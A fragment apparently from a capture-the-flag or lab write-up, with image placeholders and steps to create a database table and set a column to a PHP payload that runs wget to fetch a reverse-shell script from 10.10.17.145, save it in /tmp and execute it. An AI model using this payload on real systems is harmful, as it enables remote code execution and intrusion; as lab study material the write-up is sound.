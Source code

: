 ![](./IMG/32.png)
- Create table  

![](./IMG/33.png)
- Set the column
- Payload: ``` <?php system("wget http://10.10.17.145:9797/php-reverse-shell.php -O /tmp/shell.php; php /tmp/shell.php");?> ```

![](./IMG/34.png)
